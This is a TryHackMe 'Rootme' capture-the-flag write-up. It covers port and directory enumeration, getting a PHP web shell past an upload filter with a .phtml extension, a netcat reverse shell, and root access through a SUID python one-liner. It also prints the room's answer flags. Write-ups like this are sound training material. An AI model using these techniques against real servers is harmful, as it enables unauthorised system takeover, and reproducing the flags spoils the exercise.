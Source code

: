 # Rootme (THM)

- https://tryhackme.com/room/rrootme
- March 2, 2023
- easy

---

## Enumeration

### Nmap

1. 22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2. 80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
   - cookie - PHPSESSID
   - server - Apache/2.4.29
   - title - HackIT - Home

### http

```sh
$ ffuf -u http://$IP/FUZZ -e php -w /usr/share/wordlists/common.txt
```

- found `panel`, `css`, `js`, `uploads`

## User Access

- at `uploads` directory, try to upload shell.php and no php allowed

![](images/2023-03-02-18-58-15.png)

- change with other extensions
- `.phtml` success
- listen at your attack machine with nc and access to `/uploads/shell.phtml` and get `www-data` user access

- `sudo -l` - no access
- transfer linpeas.sh to /tmp folder in www-data shell and run linpeas.sh
- Interesting findings

```
1. Vulnerable to CVE-2021-4034
2. suid
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
1. sgid
-rwsr-sr-x 1 root root 3.5M Aug  4  2020 /usr/bin/python
```

## Root Access

- find python in gtfobins for suid

```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```


```sh
$ whoami
root
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
$ cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

---
